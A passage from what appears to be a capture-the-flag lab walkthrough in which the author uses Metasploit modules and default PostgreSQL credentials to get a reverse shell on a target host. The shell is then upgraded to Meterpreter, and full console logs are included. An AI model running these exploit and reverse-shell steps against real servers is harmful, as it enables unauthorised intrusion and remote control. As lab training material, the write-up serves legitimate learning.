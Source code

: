 
we can also read specific files from the target server with **auxiliary/admin/postgres/postgres_readfile** or maybe execute arbitrary commands with **exploit/multi/postgres/postgres_copy_from_program_cmd_exec**


now as we have what we need (credentials), lets get a reverse shell on the target host

_Tip : when working with metsploit, using **setg** instead of **set**, will set the value globaly so u wont need to set that value again_

```
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > setg LHOST 10.9.123.226 
LHOST => 10.9.123.226
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > setg USERNAME postgres
USERNAME => postgres
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > setg PASSWORD password
PASSWORD => password
msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > run

[*] Started reverse TCP handler on 10.9.123.226:4444 
[*] 10.10.207.249:5432 - 10.10.207.249:5432 - PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit
[*] 10.10.207.249:5432 - Exploiting...
[+] 10.10.207.249:5432 - 10.10.207.249:5432 - v8waOXCAxJN dropped successfully
[+] 10.10.207.249:5432 - 10.10.207.249:5432 - v8waOXCAxJN created successfully
[+] 10.10.207.249:5432 - 10.10.207.249:5432 - v8waOXCAxJN copied successfully(valid syntax/command)
[+] 10.10.207.249:5432 - 10.10.207.249:5432 - v8waOXCAxJN dropped successfully(Cleaned)
[*] 10.10.207.249:5432 - Exploit Succeeded
[*] Command shell session 1 opened (10.9.123.226:4444 -> 10.10.207.249:51362) at 2020-09-11 22:21:39 +0100

id
uid=109(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
```

<br>

directly i upgraded my initial shell into a full meterpreter shell with **multi/manage/shell_to_meterpreter** module:

```
msf5 post(multi/manage/shell_to_meterpreter) > options 

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST    10.9.123.226     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > set LHOST 10.9.123.226 
LHOST => 10.9.123.226
msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.9.123.226:4433 
[*] Sending stage (980808 bytes) to 10.10.207.249
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
[*] Meterpreter session 3 opened (10.9.123.226:4433 -> 10.10.207.249:47894) at 2020-09-11 22:42:44 +0100
```